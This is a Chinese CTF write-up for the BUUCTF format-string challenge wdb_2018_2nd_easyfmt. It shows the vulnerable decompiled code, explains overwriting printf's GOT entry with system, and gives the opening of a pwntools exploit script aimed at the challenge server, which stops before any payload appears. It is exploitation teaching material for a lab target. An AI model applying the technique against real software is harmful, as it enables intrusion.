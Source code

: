 CTF实战
-----

### wdb\_2018\_2nd\_easyfmt(buuctf)

[wdb\_2018\_2nd\_easyfmt](https://files.buuoj.cn/files/1750417bb3fc89d74ba81c7a08a8679c/wdb_2018_2nd_easyfmt)是一道经典的格式化字符串漏洞题目，做这题的时候我是在线在buuctf里做的，当时有个地方被坑了就是libc版本的问题，后来才发现buuctf资源那一栏里面可以下载各种版本libc.

[libc-2.23.so](https://files.buuoj.cn/files/85ee93d92fc553f78f195a133690eef3/libc-2.23.so)

题目：

    int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
    {
      char buf[100]; // [esp+8h] [ebp-70h] BYREF
      unsigned int v4; // [esp+6Ch] [ebp-Ch]
    
      v4 = __readgsdword(0x14u);
      setbuf(stdin, 0);
      setbuf(stdout, 0);
      setbuf(stderr, 0);
      puts("Do you know repeater?");
      while ( 1 )
      {
        read(0, buf, 0x64u);
        printf(buf);
        putchar(10);
      }
    }
    

题目分析：

1.  while(1)循环，一直读取用户输入，一直printf,read没有过滤又直接输出，存在格式化字符串漏洞
2.  题目主要用意是用格式化字符串漏洞劫持printf got表(hook),将其hook成system函数，当read输入时候可以直接当system参数用。

具体调试过程不写了，看exp:

    #导入pwn模块
    from pwn import *
    from LibcSearcher import *
    #设置运行环境
    context(arch='i386',os='linux')
    context.terminal = ['tmux','splitw','-h']
    #封装进程,ELF解析
    #r   = process("./wdb_2018_2nd_easyfmt")
    r   = remote("node4.buuoj.cn",26829)
    libc=ELF('./libc-2.23.so')
    elf = ELF("./wdb_2018_2nd_easyfmt")
    #gdb.attach(r,'b printf')
    
    #libc符号偏移
                        #本地:printf:0x51520 system:0x3d3d0
    printf_offset     = libc.sym['printf']
    system_offset     = libc.sym['system']
    